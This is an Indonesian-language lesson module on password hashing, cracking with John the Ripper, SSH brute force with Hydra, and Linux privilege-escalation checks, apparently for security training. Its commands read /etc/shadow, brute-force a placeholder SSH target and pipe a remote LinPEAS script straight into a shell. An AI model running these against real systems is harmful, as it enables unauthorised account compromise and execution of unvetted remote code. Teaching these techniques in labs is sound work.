

# 🛡️ Pertemuan 7: Password Cracking & Privilege Escalation

**Tujuan:** Memahami mekanisme penyimpanan password, teknik pembobolan hash, serta strategi peningkatan hak akses (PrivEsc) pada sistem operasi.

---

## 📚 Materi Teori

### 1. Mekanisme Hashing
Password tidak disimpan dalam bentuk teks biasa, melainkan diubah menjadi **Hash**.
- **MD5/SHA1**: Algoritma lama yang sudah tidak aman.
- **SHA256/SHA512**: Standar industri saat ini.
- **Salt**: Data acak tambahan untuk mencegah serangan *Rainbow Table*.

### 2. Teknik Serangan Password
- **Brute Force**: Mencoba semua kombinasi karakter.
- **Dictionary Attack**: Menggunakan daftar kata populer (wordlist).
- **Rainbow Table**: Menggunakan tabel hash yang sudah dihitung sebelumnya.

### 3. Privilege Escalation (PrivEsc)
Proses meningkatkan hak akses dari *Low-privileged User* menjadi *Root* (Linux) atau *SYSTEM* (Windows).



---

## 🛠️ Hands-on

### 1. Cracking Linux Hashes dengan John the Ripper
Di Linux, password disimpan di `/etc/shadow`. Kita perlu menggabungkannya dengan `/etc/passwd`.

```bash
# Menggabungkan passwd dan shadow (butuh sudo)
sudo unshadow /etc/passwd /etc/shadow > myhashes.txt

# Cracking menggunakan John the Ripper dengan wordlist default
john --wordlist=/usr/share/wordlists/rockyou.txt myhashes.txt

# Melihat hasil
john --show myhashes.txt
```

### 2. Online Brute Force dengan Hydra
Mencoba login SSH menggunakan dictionary attack.
```bash
# Mencoba login user 'admin' pada SSH target
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://<target_ip>
```

### 3. Linux PrivEsc Check
Gunakan script otomatis untuk mencari celah peningkatan hak akses.
```bash
# Menjalankan LinPEAS
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

---

## 🐳 Hands-on: Docker Kali Linux
Jalankan praktikum Password Cracking di dalam container:
```bash
# Jalankan container
docker run -it --rm kalilinux/kali-rolling /bin/bash

# Instal tools Password Cracking:
apt update && apt install -y john hydra
```

## 📖 Referensi
- **John the Ripper Official**: [openwall.com/john](https://www.openwall.com/john/)
- **PayloadsAllTheThings**: [Privilege Escalation Guide](https://github.com/swisskyrepo/PayloadsAllTheThings)
- **GTFOBins**: [Linux Sudo Exploitation](https://gtfobins.github.io/)
